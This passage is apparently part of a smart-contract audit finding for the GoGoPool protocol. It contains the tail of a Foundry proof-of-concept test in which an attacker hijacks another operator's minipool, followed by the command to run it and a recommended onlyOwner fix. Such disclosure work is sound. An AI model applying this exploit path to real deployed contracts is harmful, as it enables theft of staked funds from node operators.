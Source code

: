     		// Hacker withdraws his staked ggp
    		staking.withdrawGGP(ggpStakeAmt);
    		assertEq(ggp.balanceOf(hacker), ggpStakeAmt);
    		vm.stopPrank();

    		vm.startPrank(nodeOp);
    		// NodeOp tries to withdraw his funds from the minipool
    		// Transaction reverts because NodeOp is not the owner anymore
    		vm.expectRevert(MinipoolManager.OnlyOwner.selector);
    		minipoolMgr.withdrawMinipoolFunds(nodeOpMp.nodeID);

    		// NodeOp can still release his staked gpp
    		staking.withdrawGGP(ggpStakeAmt);
    		assertEq(ggp.balanceOf(nodeOp), ggpStakeAmt);
    		vm.stopPrank();
    	}

To run the POC, execute:

    forge test -m testHijackMinipool -v

Expected output:

    Running 1 test for test/unit/MinipoolManager.t.sol:MinipoolManagerTest
    [PASS] testHijackMinipool() (gas: 2346280)
    Test result: ok. 1 passed; 0 failed; finished in 9.63s

### Tools Used

VS Code, Foundry

### Recommended Mitigation Steps

Fortunately, the fix is very simple.<br>
The reason `createMinipool` is called with an existing `nodeID` is to re-use the `nodeID` again with the protocol. GoGoPool can validate that the owner is the same address as the calling address. GoGoPool have already implemented a function that does this: `onlyOwner(index)`.

Consider placing `onlyOwner(index)` in the following area: <br><https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/MinipoolManager.sol#L243>

    	function createMinipool(
    		address nodeID,
    		uint256 duration,
    		uint256 delegationFee,
    		uint256 avaxAssignmentRequest
    	) external payable whenNotPaused {
    ----------
    		int256 minipoolIndex = getIndexOf(nodeID);
    		if (minipoolIndex != -1) {
                            onlyOwner(minipoolIndex); // AUDIT: ADDED HERE
    ----------
    		} else {
    ----------
    	}
